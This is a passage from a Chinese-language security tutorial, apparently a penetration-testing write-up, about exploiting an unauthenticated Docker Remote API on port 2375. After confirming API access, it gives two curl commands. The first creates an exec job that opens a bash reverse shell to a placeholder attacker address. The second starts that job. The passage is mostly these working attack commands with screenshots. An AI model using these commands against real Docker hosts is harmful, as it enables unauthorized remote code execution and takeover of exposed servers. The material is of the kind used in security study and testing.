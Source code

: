 [![](assets/1698894613-3cd2a103b000ed19a86d01b83dbf61ce.png)](https://storage.tttang.com/media/attachment/2022/03/12/f674af83-725e-46c4-bc14-fb7cd4b655f8.png)

我们选一个来试试水

可以发现是成功的调用了 API 查询了容器状态

[![](assets/1698894613-e71e312f44338625082265120fb81532.png)](https://storage.tttang.com/media/attachment/2022/03/12/6ac4bf7b-e165-41fd-97e2-a66b6dab57ef.png)

然后我们可以通过如下指令，在指定容器内部执行命令

```plain
curl -X POST "http://ip:2375/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'
```

获取到一个 id

[![](assets/1698894613-c5e9e63271b7f9c1156a0f74c5b46cac.png)](https://storage.tttang.com/media/attachment/2022/03/12/b9dc7fba-24e1-49ca-b668-96fa7e8669ee.png)

然后请求这个 id，执行此命令

```plain
curl -X POST "http://ip:2375/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```
